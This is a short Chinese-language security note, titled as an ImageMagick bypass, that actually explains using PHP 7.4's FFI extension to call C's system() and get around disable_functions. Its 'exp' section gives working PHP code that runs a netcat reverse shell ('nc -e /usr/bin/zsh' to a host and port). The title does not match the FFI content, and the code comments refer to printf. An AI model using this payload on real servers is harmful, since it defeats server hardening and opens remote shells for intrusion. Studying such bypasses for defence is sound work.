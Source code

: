 ```yaml
---
title: 利用 ImageMagick 漏洞绕过（二）
id: zhfly3471
---
```


## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4
ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用C代码。
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

![image](../img/c97dba03983492deb4876554a7614a37.png)

**3.exp**

```
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?> 
```